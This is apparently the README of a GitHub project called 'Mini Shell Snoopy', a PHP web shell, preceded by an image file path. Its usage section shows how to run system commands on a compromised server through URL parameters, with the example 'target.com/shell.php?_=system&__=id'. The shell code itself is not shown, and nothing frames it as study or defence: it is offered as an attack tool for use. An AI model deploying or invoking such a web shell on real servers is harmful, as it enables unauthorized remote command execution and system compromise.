 # Mini Shell Snoopy
[![Version](https://img.shields.io/badge/Mini_Command-PHP-blue.svg)]()
[![Stage](https://img.shields.io/badge/Based-PHP-blue.svg)]()

---
## How to use 
- You can access your shell: php?_=system&__=id<br>
- ```Example: target.com/shell.php?_=system&__=id```
